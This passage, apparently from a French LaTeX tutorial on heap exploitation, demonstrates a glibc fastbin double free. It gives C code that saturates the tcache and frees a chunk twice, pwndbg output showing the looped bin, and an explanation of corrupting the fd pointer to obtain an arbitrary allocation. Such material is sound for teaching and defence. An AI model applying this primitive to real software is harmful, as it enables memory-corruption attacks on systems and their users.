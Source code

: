 \paragraph{Démonstration par le code :}

\begin{verbatim}
#include <stdlib.h>

int main() {
    // 1. Saturation du Tcache (7 chunks) pour forcer l'usage des Fastbins
    void *tcache[7];
    for(int i=0; i<7; i++) tcache[i] = malloc(0x20);
    for(int i=0; i<7; i++) free(tcache[i]);

    // 2. Allocation initiale des chunks cibles
    // calloc est utilisé pour contourner le comportement du Tcache,
    // car il n'utilise jamais les chunks stockés dans le tcache pour ses allocations.
    long *a = calloc(1, 0x20);
    long *b = calloc(1, 0x20);

    // 3. Vulnérabilité : Double Free dans le Fastbin
    free(a);
    free(b);
    free(a); // Contournement: La liste est maintenant A -> B -> A

    // 4. Exploitation : Récupération des pointeurs
    long *c = calloc(1, 0x20); // Retourne le pointeur 'a'
    long *d = calloc(1, 0x20); // Retourne le pointeur 'b'
    long *e = calloc(1, 0x20); // Retourne le pointeur 'a' à nouveau !

    // L'attaquant possède maintenant deux pointeurs (c et e) 
    // qui pointent vers la même adresse physique.
    return 0;
}
\end{verbatim}

\begin{pwndbg}[bins]{text}
    tcachebins
    empty
    fastbins
    0x20: 0x5555555593e0 !\textcolor{pwndbgblue}{->}! 0x555555559400 !\textcolor{pwndbgblue}{<-}! !\textcolor{pwndbgred}{0x5555555593e0 (loop)}!
    unsortedbin
    empty
    smallbins
    empty
    largebins
    empty
\end{pwndbg}

Étant donné que la liste est corrompue, lorsque l'application alloue à nouveau ces chunks, l'allocateur renvoie deux pointeurs vers exactement le même espace mémoire physique. L'attaquant peut utiliser le premier pointeur pour écrire une adresse cible dans le pointeur \texttt{fd} du chunk. La prochaine fois que l'allocateur retirera un chunk du Fastbin, il suivra aveuglément ce pointeur \texttt{fd} corrompu et renverra l'adresse cible de l'attaquant.

